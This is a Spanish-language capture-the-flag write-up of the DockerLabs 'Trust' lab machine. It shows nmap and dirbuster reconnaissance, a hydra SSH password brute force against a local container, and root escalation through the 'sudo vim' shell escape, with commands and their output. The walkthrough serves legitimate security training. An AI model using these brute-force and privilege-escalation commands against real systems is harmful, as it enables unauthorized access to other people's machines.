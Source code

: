 ```yaml
---
title: CTF-DockerLabs-Trust
published: true
---
```


## WriteUps maquina Trust de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Trust
  -  **Nombre:** Trust
  -  **SO:** Linux
  -  **Dificultad:** Muy fácil
  -  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
  - 🚩Ingresar a la maquina como algún usuario.
  - 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

![dockerlabsTrust.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dockerlabsTrust.png)

# Reconocimiento

  - Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:


```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 19:14 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y encuentro una pagina por defecto de apache: `Apache2 Debian Default Page,` lo próximo que hago es ver su código fuente y no encuentro nada fuera de la común. 

# Fuzzing Web

  - El siguiente paso que procedo a realizar es un fuzzing web puesto que tengo un servidor web corriendo en la maquina, así que utilizo `dirbuster` y el resultado es el siguiente:

```bash
└─# dirbuster 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /icons/small/ - 403
File found: /secret.php - 200
Dir found: /server-status/ - 403
DirBuster Stopped
```

Puedo ver en el resultado que existe un archivo llamado `secret.php` que al visitarlo me muestra:

![SecretTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/SecretTrustDockerlabs.png)

En su código fuente de la pagina, no me muestra nada interesante, pero recordando que existe el `sevicio ssh en el puerto 22` utilizo el nombre de usuario `mario` para realizar fuerza bruta.

# Fuerza bruta SSH

  - Ya que la web no nos da mucha información, pero si proporciona un posible usuario, procedo a utilizar `hydra` para hacer un ataque de fuerza bruta de la siguiente manera:


```bash
└─# hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: QnVzY2EgbGEgY2xhdmUgZW4gb3RybyBsYWRvCg==
1 of 1 target successfully completed, 1 valid password found
```

Y listo, con esto ya logro acceder por `ssh`, con el usuario `mario` y la contraseña encontrada.

`ssh mario@172.17.0.2`

# Escalada de privilegios

  - Ahora que tengo acceso con el usuario `mario` procedo a escalar privilegio y para ello coloco primeramente: `sudo -l` lo que me da como resultado:

```bash
~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 30dc76e27a9d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 30dc76e27a9d:
    (ALL) /usr/bin/vim
```

# PWNED

Así que procedo ir a la web [GTFOBins](https://gtfobins.github.io/) para ver como elevar privilegios utilizando `vim` con `sudo` y el resultado es que si coloco el siguiente comando `vim -c ':!/bin/sh'` con la palabra `sudo` lograría ingresar con el usuario root.

![pwnedTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/pwnedTrustDockerlabs.png)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `sudo bash auto_deploy.sh trust.tar`
  - `nmap 172.17.0.2`
  - `dirbuster`
  - `hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
  - `ssh mario@172.17.0.2`
  - `sudo vim -c ':!/bin/sh'`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |